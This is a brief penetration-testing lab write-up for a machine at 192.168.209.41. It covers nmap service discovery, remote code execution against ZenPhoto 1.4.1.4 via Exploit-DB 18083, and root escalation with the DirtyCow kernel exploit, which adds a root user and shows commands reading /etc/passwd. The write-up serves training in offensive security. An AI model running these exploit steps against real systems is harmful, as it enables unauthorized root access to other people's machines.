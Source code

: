 ## Box: 192.168.209.41 


## NMAP
```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7
23/tcp   open  ipp     CUPS 1.4
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
```

## Web Enumeration (80/tcp)
- **Endpoint:** `http://192.168.209.41/test/`
- **Discovery:** Redirect from `/test` to `/test/`
- **Version:** ZenPhoto v1.4.1.4 [8157] (Official Build)

## Exploitation: Zenphoto RCE
- **Vuln:** [Exploit-DB 18083](https://www.exploit-db.com/exploits/18083)  
- **Exploit usage:**
  ```bash
  php exploit 192.168.209.41 /test/
  ```
- **Result:** Access to `zenphoto-shell#` prompt

## Privilege Escalation: DirtyCow (CVE-2016-5195)
- **Vuln details:** Dirty Cow Linux kernel exploit  
- **Exploit download:** `exploit-db.com/download/40839`  

### Exploitation Steps
```bash
# compile DirtyCow exploit
gcc -pthread dirty.c -o dirty -lcrypt

# run exploit
./dirty
# backup created: /tmp/passwd.bak
# prompt to set new root user: 
# Username: firefart, Password: password
```

### Verify Root Account
```bash
cat /etc/passwd | grep firefart
# firefart:x:0:0:pwned:/root:/bin/bash
```

- **Root shell obtained** as `firefart/password`  
- **Cleanup:** `mv /tmp/passwd.bak /etc/passwd`
